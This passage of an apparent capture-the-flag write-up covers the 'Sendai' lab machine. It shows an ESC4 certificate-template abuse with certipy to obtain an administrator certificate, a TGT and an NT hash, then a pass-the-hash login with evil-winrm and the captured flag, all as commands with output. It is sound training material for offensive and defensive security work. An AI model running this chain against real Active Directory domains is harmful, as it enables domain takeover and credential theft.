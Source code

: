 Command
```bash
certipy-ad  req -u 'clifford.davey' -ca 'sendai-DC-CA' -dc-ip 10.10.91.145 -target dc.sendai.vl -template 'SendaiComputer' -upn administrator
```

```output
assword:
[*] Requesting certificate via RPC
[*] Request ID is 9
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx


```


## Authenticate as Domain Admin

Finally, we use `certipy auth` to authenticate as the **Administrator** using the issued certificate:

**Command:**

```bash
certipy-ad auth -pfx ./administrator.pfx -dc-ip 10.10.91.145 -domain sendai.vl 
```

```output
*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@sendai.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a

```

Boom!  We now have **Domain Admin access**, all thanks to **ESC4 abuse**. Time to **own the domain**! 


### EVILWINRM

```bash
evil-winrm -i 10.10.91.145  -u  administrator -H  cfb106feec8b89a3d98e14dcbe8d087a
```

```output
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
VL{ae138bcfb077995339a717a28a23fd61}
```





